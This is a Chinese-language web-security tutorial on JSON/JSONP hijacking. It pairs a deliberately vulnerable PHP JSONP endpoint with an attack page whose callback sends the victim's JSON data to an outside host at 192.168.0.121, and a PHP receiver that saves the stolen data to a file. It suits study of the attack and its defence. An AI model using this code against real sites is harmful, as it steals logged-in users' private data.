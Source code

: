 # json劫持漏洞

​		JSON是一种轻量级的数据交换格式，而劫持就是对数据进行窃取（或者应该称为打劫、拦截比较合适。恶意攻击者通过某些特定的手段，将本应该返回给用户的JSON数据进行拦截，转而将数据发送回给恶意攻击者，这就是JSON劫持的大概含义。一般来说进行劫持的JSON数据都是包含敏感信息或者有价值的数据。

​		攻击方法与csrf类似，都是需要用户登录帐号，身份认证还没有被消除的情况下访问攻击者精心设计好的的页面。就会获取json数据，把json数据发送给攻击者。

## 测试流程与方法

找到json的类型页面，写好攻击页面，诱导目标访问页面，从而获取数据。

### 靶机测试

```php
<?php
	header('Content-type: application/json');
	$callback = $_GET['callback'];
  print $callback.'({"id" : "1","name" : "moonsec","email":"moon@moonsec.com"});';
?>
```

### 测试页面html

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>jsonp劫持</title>
  <script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
</head>

<body>
	<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
	<script src="http://www.webtester.com/json.php?callback=jsonp2"></script>
</body>
</html>
```

### 劫持json发送返回数据

```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="UTF-8">
	<title></title>
	<script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
	<script>
		function test(data){
			//alert(v.name);
  		var xmlhttp = new XMLHttpRequest();
  		var url = "http://192.168.0.121/1.php?file=" + JSON.stringify(data);
  		xmlhttp.open("GET",url,true);
  		xmlhttp.send();
  }
  </script>
<script src="http://www.webtester.com/json.php?callback=test"></script>
</head> 
   <body>
   </body>
</html>
```

**远程接收的php**

```php
<?php
	if($_GET['file']){
    file_put_contents('json.txt',$_GET['file'])
	}
?>
```

​		诱导目标访问带有攻击代码的页面。当用户访问这个页面的时候就会把数据发送到远程的服务器上的1.PHP 1.php就会把得到的数据生成json.txt